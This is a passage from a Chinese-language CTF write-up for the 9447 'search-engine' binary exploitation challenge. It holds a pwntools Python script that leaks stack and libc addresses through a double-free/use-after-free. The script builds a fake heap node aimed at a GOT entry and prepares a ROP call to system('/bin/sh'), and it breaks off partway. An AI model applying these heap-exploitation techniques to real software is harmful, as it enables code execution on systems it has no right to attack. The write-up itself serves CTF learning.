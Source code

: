 接下来就是已经熟悉的 double free，只不过目标是返回地址，可以寻找栈上合适的地址作为构造的chunk，可以使用 ROPgadget 找到一个 pop_rdi_ret 地址给 system 提供参数，完整代码在 [exp.py](https://github.com/0x3f97/pwn/blob/master/9447-search-engine/exp.py) [exp4.py](https://github.com/0x3f97/pwn/blob/master/9447-search-engine/exp4.py)


```python
#!/usr/bin/env python2

from pwn import *

context(arch="amd64", os="linux")

p = process('./search-bf61fbb8fa7212c814b2607a81a84adf')

pop_rdi_ret = 0x400e23
system_offset = 0x46590
puts_offset = 0x6fd60
binsh_offset = 1558723

def leak_stack():
    p.sendline('A'*48)
    p.recvuntil('Quit\n')
    p.recvline()

    # doesn't work all the time
    p.sendline('A'*48)
    leak = p.recvline().split(' ')[0][48:]
    return int(leak[::-1].encode('hex'), 16)

def leak_libc():
    # this sentence is the same size as a list node
    index_sentence(('a'*12 + ' b ').ljust(40, 'c'))

    # delete the sentence
    search('a' * 12)
    p.sendline('y')

    # the node for this sentence gets put in the previous sentence's spot.
    # note we made sure this doesn't reuse the chunk that was just freed by
    # making it 64 bytes
    index_sentence('d' * 64)

    # free the first sentence again so we can allocate something on top of it.
    # this will work because 1) the sentence no longer starts with a null byte
    # (in fact, it should be clear that it starts a pointer to 64 d's), and 2)
    # the location where our original string contained `b` is guaranteed to be
    # zero. this is because after the original sentence was zeroed out, nothing
    # was allocated at offset 12, which is just padding in the structure. if
    # we had made the first word in the string 16 bytes instead of 12, then that
    # would put 'b' at a location where it would not be guaranteed to be zero.
    search('\x00')
    p.sendline('y')

    # make our fake node
    node = ''
    node += p64(0x400E90) # word pointer "Enter"
    node += p64(5) # word length
    node += p64(0x602028) # sentence pointer (GOT address of free)
    node += p64(64) # length of sentence
    node += p64(0x00000000) # next pointer is null
    assert len(node) == 40

    # this sentence gets allocated on top of the previous sentence's node.
    # we can thus control the sentence pointer of that node and leak memory.
    index_sentence(node)
```